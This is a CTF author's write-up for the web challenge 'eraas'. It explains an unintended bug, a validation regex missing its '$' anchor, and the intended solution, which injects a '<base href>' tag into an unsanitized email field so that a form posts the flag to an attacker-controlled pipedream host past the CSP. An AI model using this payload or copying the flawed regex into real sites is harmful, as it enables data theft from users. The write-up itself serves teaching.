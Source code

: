 # eraas Solution

This challenge was broken. I came to know of it only after the CTF ended, while going through others writeups.

At line 22 in "main.py", I forgot to include a trailing `$` in the validation regex that was supposed to ensure that the user input was numeric:

`REGEX_DIGITS = re.compile("^\d+")`

should have been

`REGEX_DIGITS = re.compile("^\d+$")`

Moral: Test your challenges else they will be for nothing.

---

The "email" field at `/status` seems to be un-sanitized but it can't be used for XSS due to the CSP blocking all external connections. We need to find something else to bypass this CSP.

After going through the JS, we find that the presence of a "?token" query in the URL returns a form in addition to the data fields. It's possibly used by the admin to manually type in the decoded epoch; flag in our case.

The above mentioned form submits to the relative URL `.`, i.e. the current page. Hence, it can be made to submit data to an attacker controlled domain by setting the [`base` URL](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base) via the "email" field. Example payload:

```
<base href="https://abcde.pipedream.net">
```

Note: Only the scheme and hostname is taken into consideration while setting the `base` URL; path, query, etc are ignored.

[solve.py](solve.py)
